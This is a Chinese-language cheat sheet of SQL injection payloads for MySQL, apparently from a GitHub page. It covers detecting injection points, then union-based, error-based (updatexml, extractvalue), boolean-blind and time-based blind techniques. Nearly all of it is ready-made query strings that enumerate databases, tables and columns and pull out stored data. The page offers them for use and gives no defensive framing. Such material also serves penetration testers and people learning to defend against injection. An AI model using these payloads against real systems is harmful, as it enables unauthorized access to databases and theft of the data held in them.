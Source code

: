 ## 注入点判断

①单双引号

有报错说明存在sql注入，没有报错可能是被拦截

```
id=1'
id=1"
```

②and

一个正常返回一个返回异常说明存在注入,可以判断出类型

```
id=1 and 1=1
id=1 and 1=2

id=1' and '1'='1
id=1' and '1'='2
```

③+-运算符

能正常返回说明存在数字型注入

```
id=1+1
id=1+2
```

## 联合注入

利用`union seletc`进行联合注入

条件：①知道有多少列，可以通过order by确定 ②每一列对应数据类型一致

爆出所有数据库：
?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata-- s

爆出数据表：

?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='**数据库名**'-- s

爆出表的字段：

?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='**数据库名**' and table_name='**表名**'-- s

爆出数据：

?id=-1' union select 1,2,group_concat(0x7e,**字段**,0x7e) from **数据库名.数据表名**-- s

## 函数报错注入

### updatexml函数

`updatexml(xml_document,XPthstring,new_value)` 只能返回32字节数据

爆出所有数据库：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),1,31)),1)-- s

1' and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),32,31)),1)-- s

1' and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),63,31)),1)-- s
```

爆出当前数据库信息：

```
1'and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)-- s
```

爆出当前数据库的所有表：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1)-- s

1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),32,31),0x7e),1)-- s

1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),63,31),0x7e),1)-- s
```

爆出字段信息：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),1,31),0x7e),1)-- s

1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),32,31),0x7e),1)-- s

1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),63,31),0x7e),1)-- s
```

爆出数据：

```
1' and updatexml(1,concat(0x7e,substr((select group_concat(**字段) from 数据库名.数据表名),1,31),0x7e),1)-- s
1' and updatexml(1,concat(0x7e,substr((select group_concat(**字段) from 数据库名.数据表名),32,31),0x7e),1)-- s
1' and updatexml(1,concat(0x7e,substr((select group_concat(**字段) from 数据库名.数据表名),63,31),0x7e),1)-- s
```

### extractvalue函数

`extractvalue (XML_document, XPath_string)`只能返回32字节数据

爆出当前数据库信息：

```
1'and extractvalue(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir))-- s
```

爆出当前数据库的表：

```
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e)) -- s
```

爆出字段信息：

```
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),0x7e)) -- s
```

爆出数据：

```
1' and extractvalue(1,concat(0x7e,(select group_concat(0x7e,**字段,0x7e) from 数据库名.数据表名))) -- s
```

## 布尔盲注

**猜解当前数据库名称长度**

```
?id=1' and (length(database()))=1-- s
?id=1' and (length(database()))=2-- s
```

**猜解当前数据库名称**

```
?id=1' and ascii(substr(database(),1,1))=48-- s
#范围可以是48-122，变量是ascii码数
```

**猜当前数据库表名**

```
?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=48-- s

?id=1' and (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)))=48-- s
#范围可以是48-122，变量是ascii码数和substr的字符
```

**猜字段名**

```
?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name='表名' limit 1,1),1,1)))=48-- s

?id=1' and (ascii(substr((select column_name from information_schema.columns where table_name='表名' limit 1,1),2,1)))=48-- s
#范围可以是48-122，变量是ascii码数和substr的字符
```

**猜内容** 

```
?id=1' and (ascii(substr((select 单个字段 from 数据库名.表名 limit 0,1),1,1)))=48-- s

?id=1' and (ascii(substr((select 单个字段 from 数据库名.表名 limit 0,1),2,1)))=48-- s
#范围可以是48-122，变量是ascii码数和substr的字符
```

## 时间盲注

**猜解当前数据库名称长度**

```
?id=1' and if((length(database()))=1,sleep(3),1)-- s
?id=1' and if((length(database()))=2,sleep(3),1)-- s
#比布尔盲注多一个if语句
```

**猜解当前数据库名称**

```
?id=1' and if(ascii(substr(database(),1,1))=48,sleep(3),1)-- s
#范围可以是48-122，变量是ascii码数
```

**猜当前数据库表名**

```
?id=1' and if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)))=48,sleep(3),1)-- s

?id=1' and if((ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1)))=48,sleep(3),1)-- s
#范围可以是48-122，变量是ascii码数和substr的字符
```

**猜字段名**

```
?id=1' and if((ascii(substr((select column_name from information_schema.columns where table_name='表名' limit 1,1),1,1)))=48,sleep(3),1)-- s

?id=1' and if((ascii(substr((select column_name from information_schema.columns where table_name='表名' limit 1,1),2,1)))=48,sleep(3),1)-- s
#范围可以是48-122，变量是ascii码数和substr的字符
```

**猜内容** 

```
?id=1' and if((ascii(substr((select 单个字段 from 数据库名.表名 limit 0,1),1,1)))=48,sleep(3),1)-- s

?id=1' and if((ascii(substr((select 单个字段 from 数据库名.表名 limit 0,1),2,1)))=48,sleep(3),1)-- s
#范围可以是48-122，变量是ascii码数和substr的字符
```

